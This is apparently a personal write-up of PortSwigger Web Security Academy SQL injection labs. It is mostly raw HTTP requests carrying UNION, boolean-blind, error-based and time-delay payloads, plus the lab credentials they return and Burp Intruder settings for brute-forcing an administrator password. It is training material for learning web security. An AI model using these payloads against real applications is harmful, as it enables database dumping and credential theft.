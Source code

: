 # SQL Injection Labs

## SQL injection attack, listing the database contents on Oracle

Note: Oracle requires a `FROM` clause in all `SELECT` statements. We can use the
built-in `dual` table for that.

```
GET /filter?category='+UNION+SELECT+NULL,'a'+from+dual-- HTTP/2

GET /filter?category='+UNION+SELECT+NULL,table_name+FROM+all_tables-- HTTP/2
<tr>
  <td>USERS_KMHLSB</td>
</tr>

GET /filter?category='+UNION+SELECT+NULL,column_name+FROM+all_tab_columns+WHERE+table_name+=+'USERS_KMHLSB'-- HTTP/2
PASSWORD_TLPSHT
USERNAME_ZZFDXD


GET /filter?category='+UNION+SELECT+NULL,PASSWORD_TLPSHT+||+':'+||+USERNAME_ZZFDXD+FROM+USERS_KMHLSB-- HTTP/2
93w4qoy3clpolrawivuk:wiener
weq2qre17hvdxek7a4sv:carlos
zu913q61aqwqtdyrv2xo:administrator
```

## Blind SQL injection with conditional responses

```
GET /filter?category=Toys+%26+Games HTTP/2
Host: 0adf004e04ea2a9c854a78ad00360047.web-security-academy.net
Cookie: TrackingId=cQvDEyZPW0ZMMZVx; session=FnfWrUq2pwOxFm0Wrq4nyRmD9IkjPP5e

# Check if execution happens
GET /filter?category=Toys+%26+Games HTTP/2
Host: 0adf004e04ea2a9c854a78ad00360047.web-security-academy.net
Cookie: TrackingId=cQvDEyZPW0ZMMZVx' AND '3'='3; session=FnfWrUq2pwOxFm0Wrq4nyRmD9IkjPP5e

# Check fist letter
Cookie: TrackingId=cQvDEyZPW0ZMMZVx' AND SUBSTRING((SELECT password FROM Users WHERE Username = 'administrator'), 1, 1) <= 'm session=FnfWrUq2pwOxFm0Wrq4nyRmD9IkjPP5e

# First match
Cookie: TrackingId=cQvDEyZPW0ZMMZVx' AND SUBSTRING((SELECT password FROM Users WHERE Username = 'administrator'), 1, 1) = 'f; session=FnfWrUq2pwOxFm0Wrq4nyRmD9IkjPP5e

# Second Letter
Cookie: TrackingId=cQvDEyZPW0ZMMZVx' AND SUBSTRING((SELECT password FROM Users WHERE Username = 'administrator'), 2, 1) = 'a; session=FnfWrUq2pwOxFm0Wrq4nyRmD9IkjPP5e

# Third
Cookie: TrackingId=cQvDEyZPW0ZMMZVx' AND SUBSTRING((SELECT password FROM Users WHERE Username = 'administrator'), 3, 1) = '5; session=FnfWrUq2pwOxFm0Wrq4nyRmD9IkjPP5eA

# Final 
GET /filter?category=Toys+%26+Games HTTP/2
Host: 0adf004e04ea2a9c854a78ad00360047.web-security-academy.net
Cookie: TrackingId=cQvDEyZPW0ZMMZVx' AND SUBSTRING((SELECT password FROM Users WHERE Username = 'administrator'), 1, 20) = 'fa55g4p06ue320533fus; session=FnfWrUq2pwOxFm0Wrq4nyRmD9IkjPP5e
```

This could have been done way more efficiently by using the intruder feature of
BurpSuite.

## Blind SQL injection with conditional errors

Note: This is an Oracle DB

```
GET /filter?category=Corporate+gifts HTTP/2
Host: 0a2b00be04275c2f81ddd9e7002d006b.web-security-academy.net
Cookie: TrackingId=oheSoImFDflJjeUv'; session=qaT8PeyYuUen0cJhD21OqceEDQF4JFFI

# Initial Oracle test (returns result)
Cookie: TrackingId=oheSoImFDflJjeUv' AND ( SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE NULL END FROM dual )='a; session=qaT8PeyYuUen0cJhD21OqceEDQF4JFFI

# Crashes app
Cookie: TrackingId=oheSoImFDflJjeUv' AND ( SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE NULL END FROM dual )='a; session=qaT8PeyYuUen0cJhD21OqceEDQF4JFFI


# First Conditional test againt user table
Cookie: TrackingId=oheSoImFDflJjeUv' AND ( SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE NULL END FROM users WHERE username='administrator' )='a; session=qaT8PeyYuUen0cJhD21OqceEDQF4JFFI

Cookie: TrackingId=oheSoImFDflJjeUv' AND ( SELECT CASE WHEN (password < 'm') THEN TO_CHAR(1/0) ELSE NULL END FROM users WHERE username='administrator' )='a;

# Check PW Length
Cookie: TrackingId=oheSoImFDflJjeUv' AND ( SELECT CASE WHEN (LENGTH(password) = 20) THEN TO_CHAR(1/0) ELSE NULL END FROM users WHERE username='administrator' )='a; session=qaT8PeyYuUen0cJhD21OqceEDQF4JFFI

# PW Fist letter check
Cookie: TrackingId=oheSoImFDflJjeUv' AND ( SELECT CASE WHEN (SUBSTR(password,1,1) = 'b') THEN TO_CHAR(1/0) ELSE NULL END FROM users WHERE username='administrator' )='a; session=qaT8PeyYuUen0cJhD21OqceEDQF4JFFI

# Intruder
Cookie: TrackingId=chiqiq7pXIgBPi6T'||(SELECT CASE WHEN SUBSTR(password,§1§,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'; session=bGijkv5bYunQaUdT99YzOKk4V8XiyK8m
```

In Intruder:

- Switch to clusterbomb attack type
  - set first payload to number from 1-20 with increment 1
  - set second payload to `a-z` and `0-9`
- In results: filter for 500 status
- Sort by `payload 1`

![results-blind-oracle](images/results-blind-oracle.png)

## Blind SQL injection with time delays

```
# Initial Request
GET / HTTP/2
Host: 0a90000004d38cd582d738de00420061.web-security-academy.net
Cookie: TrackingId=JjlpMTlWKJlheKxz; session=dZKT5XYtz3AaPgvoqAwIeiJnN7HBISHL

# Working example using string concatenation
Cookie: TrackingId=oheSoImFDflJjeUv'|| pg_sleep(10) --; session=qaT8PeyYuUen0cJhD21OqceEDQF4JFFI
```

The SQL query on the srv might look like this

``` sql
SELECT userid FROM tracking where id='${trackingId}'
```

## Blind SQL injection with time delays and information retrieval

```
# Initial Request
GET / HTTP/2
Host: 0a6700fe046f338e812f434f00f40045.web-security-academy.net
Cookie: TrackingId=f3a7cn7ioKyEbnQz; session=JzTLeEfQgPeATLOCBhW6lAOT2BSVYcyn

# Initial check for execution (works)
Cookie: TrackingId=f3a7cn7ioKyEbnQz'|| pg_sleep(3) --; session=JzTLeEfQgPeATLOCBhW6lAOT2BSVYcyn

# First Condition: Remeber we are already in a select statement
Cookie: TrackingId=f3a7cn7ioKyEbnQz' || CASE WHEN ('1'='1') THEN pg_sleep(3) ELSE pg_sleep(0) END--; session=JzTLeEfQgPeATLOCBhW6lAOT2BSVYcyn

# Our first actual succefull data retrevial Request
Cookie: TrackingId=f3a7cn7ioKyEbnQz' || (SELECT CASE WHEN LENGTH(password) < 30 
THEN pg_sleep(3) ELSE pg_sleep(0) END FROM users WHERE 
username='administrator')-- ; 

# PW Length is 20
Cookie: TrackingId=f3a7cn7ioKyEbnQz' || (SELECT CASE WHEN LENGTH(password) = 20 THEN pg_sleep(3) ELSE pg_sleep(0) END FROM users WHERE username='administrator')-- ; session=JzTLeEfQgPeATLOCBhW6lAOT2BSVYcyn


# Test of PW char 1 1
Cookie: TrackingId=f3a7cn7ioKyEbnQz' || (SELECT CASE WHEN (substring(password,1,1) > 'a') THEN pg_sleep(7) ELSE pg_sleep(0) END FROM users WHERE username='administrator' limit 1)-- ; session=JzTLeEfQgPeATLOCBhW6lAOT2BSVYcyn

# Intruder
Cookie: TrackingId=f3a7cn7ioKyEbnQz' || (SELECT CASE WHEN substring(password,§1§,1) = '§a§' THEN pg_sleep(7) ELSE pg_sleep(0) END FROM users WHERE username='administrator' limit 1)-- ; session=JzTLeEfQgPeATLOCBhW6lAOT2BSVYcyn
```

Intruder Settings:
- cluster bomb
  - 1. pos = number 1-20
  - 2. pos = `a-z`, `0-9`
- set max concurrent connections to 10

- In results: show `Response received`, which is the response time.
  - Sort by that and read PW

![blind-timing-data](images/blind-timing-data.png)


